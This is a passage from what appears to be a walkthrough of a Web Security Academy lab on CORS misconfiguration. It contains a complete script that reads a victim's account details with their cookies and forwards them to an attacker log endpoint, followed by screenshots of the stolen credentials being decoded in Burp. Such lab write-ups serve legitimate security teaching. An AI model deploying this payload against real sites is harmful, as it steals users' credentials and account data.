 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	The script does the following:
	// Create an XMLHttpRequest instance.
	// Set the event handler that will be called when the response is received.
	// opening a GET request to the URL to retrieve account details
	// Sending cookies and HTTP authentication information in the request
	// Sending the request
	// Event handler function called when a response is received from the server
	// forwarding the current page to a log file with the received response text as parameter
	// After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
